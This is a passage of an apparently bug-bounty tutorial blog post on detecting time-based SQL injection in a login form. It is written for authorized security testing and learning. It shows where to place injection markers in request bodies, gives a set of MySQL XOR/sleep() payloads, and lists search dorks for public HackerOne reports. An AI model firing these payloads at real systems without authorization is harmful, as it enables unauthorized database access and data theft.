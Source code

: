 ```makefile
Priority: u=0, i
Te: trailers

email=admin@admin.com&password=pass1234
email=admin@admin.com&password=pass1234💉
email=admin@admin.com&password=💉pass1234
email=admin@admin.com&password💉=pass1234
email=admin@admin.com&💉password=pass1234
email=admin@admin.com💉R&am;password=pass1234
email=💉Radmn@admin.com&password=pass1234
email💉R=adin@admin.com&password=pass1234
💉Remal=admin@admin.com&password=pass1234
```

Black box testing, you never know how the server might behave.😜

If you get the expected delay response time to be 20 seconds or more than 20 seconds, increase and decrease the number and verify with 5–6 test cases. You can report at this point of time to the company or the crowd-sourced platform program target, run sqlmap or ghauri automated tool only when it is asked by the triager.

```
0'XOR(if(now()=sysdate()%2Csleep(20)%2C0))XOR'Z - got delay of 20 second or more?
0'XOR(if(now()=sysdate()%2Csleep(30)%2C0))XOR'Z - got delay of 30 second or more?
0'XOR(if(now()=sysdate()%2Csleep(10)%2C0))XOR'Z ....
0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z ... 
0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z ...
```

### Daily Bug Report Reading Habit

You can refer valid publicly disclosed bug reports by using below dork

```
site:hackerone.com inurl:reports "time based"
site:hackerone.com inurl:reports "time based SQL Injection"
site:hackerone.com inurl:reports "SQL Injection"
site:hackerone.com inurl:reports "XOR"
```

![None](https://miro.medium.com/v2/resize:fit:700/1*txGkNiQSsiyv3uIEDQUwwg.png)

I suggest to solve [portswigger sql injection labs](https://portswigger.net/web-security/all-labs) to gain more insights into it before diving straight into real world targets.

For comprehensive payloads based on the DBMS used, refer below👇

🤔*Note: In modern apps , you will often find NOSQL databases like mongodb, and the traditional SQL Injection methods don't work and approach is different in this case.Need to learn NO-SQL Injection for this.*

#### 🔗Other Articles you might like:

[Live Bug Hunting Recon Methodology](https://systemweakness.com/bug-hunting-recon-methodology-part1-legionhunter-975b7bbe3231)
